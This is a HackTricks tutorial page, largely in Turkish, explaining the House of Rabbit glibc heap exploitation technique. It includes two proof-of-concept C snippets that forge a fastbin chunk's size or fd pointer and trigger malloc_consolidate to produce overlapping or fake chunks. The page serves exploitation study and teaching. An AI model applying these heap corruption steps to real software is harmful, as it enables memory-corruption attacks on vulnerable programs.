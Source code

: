 # House of Rabbit

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### Gereksinimler

1. **Hızlı bin fd işaretçisini veya boyutunu değiştirme yeteneği**: Bu, hızlı bin içindeki bir parçanın ileri işaretçisini veya boyutunu değiştirebileceğiniz anlamına gelir.
2. **`malloc_consolidate`'i tetikleme yeteneği**: Bu, ya büyük bir parça ayırarak ya da üst parçayı birleştirerek yapılabilir; bu, yığın parçalarını birleştirmeye zorlar.

### Hedefler

1. **Üst üste binen parçalar oluşturma**: Bir parçanın diğerinin üstüne gelmesini sağlamak, böylece daha fazla yığın manipülasyonu yapılmasına olanak tanımak.
2. **Sahte parçalar oluşturma**: Yığın işlemleri sırasında sahte bir parçayı meşru bir parça olarak ele alması için ayırıcıyı kandırmak.

## Saldırı Adımları

### POC 1: Hızlı bin parça boyutunu değiştirme

**Amaç**: Hızlı bin parçasının boyutunu manipüle ederek üst üste binen bir parça oluşturmak.

* **Adım 1: Parçaları Ayır**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
İki adet 0x40 baytlık parça ayırıyoruz. Bu parçalar serbest bırakıldıklarında hızlı kutu listesine yerleştirilecektir.

* **Adım 2: Parçaları Serbest Bırak**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
We free both chunks, adding them to the fastbin list.

* **Adım 3: Parça Boyutunu Değiştir**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
We change the size metadata of `chunk1` to 0xa1. This is a crucial step to trick the allocator during consolidation.

* **Adım 4: `malloc_consolidate`'i tetikle**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Büyük bir parça ayırmak, küçük parçaları hızlı kutuda birleştiren `malloc_consolidate` fonksiyonunu tetikler. Manipüle edilen `chunk1` boyutu, `chunk2` ile örtüşmesine neden olur.

Birleştirmeden sonra, `chunk1` `chunk2` ile örtüşür ve daha fazla istismar olanağı sağlar.

### POC 2: `fd` işaretçisini değiştir

**Amaç**: Hızlı kutu `fd` işaretçisini manipüle ederek sahte bir parça oluşturmak.

* **Adım 1: Parçaları Ayır**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Açıklama**: Yığın için sahte parça oluşturmak amacıyla bir küçük ve bir büyük iki parça ayırıyoruz.

* **Adım 2: Sahte parça oluştur**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
`chunk2` içine sahte parça meta verisi yazıyoruz, böylece daha küçük parçaları simüle ediyoruz.

* **Adım 3: `chunk1`'i serbest bırak**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Açıklama**: `chunk1`'i serbest bırakıyoruz, bunu fastbin listesine ekliyoruz.

* **Adım 4: `chunk1`'in `fd`'sini Değiştir**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Açıklama**: `chunk1`'in ileri işaretçisini (`fd`) `chunk2` içindeki sahte parçamıza işaret edecek şekilde değiştiriyoruz.

* **Adım 5: `malloc_consolidate`'i tetikle**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Büyük bir parça ayırmak tekrar `malloc_consolidate`'i tetikler, bu da sahte parçayı işler.

Sahte parça hızlı listeye dahil olur, bu da onu daha fazla istismar için meşru bir parça haline getirir.

### Özet

**House of Rabbit** tekniği, bir hızlı parça boyutunu değiştirerek üst üste binen parçalar oluşturmayı veya sahte parçalar oluşturmak için `fd` işaretçisini manipüle etmeyi içerir. Bu, saldırganların yığında meşru parçalar oluşturmasına olanak tanır ve çeşitli istismar biçimlerini mümkün kılar. Bu adımları anlamak ve uygulamak, yığın istismar becerilerinizi geliştirecektir.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
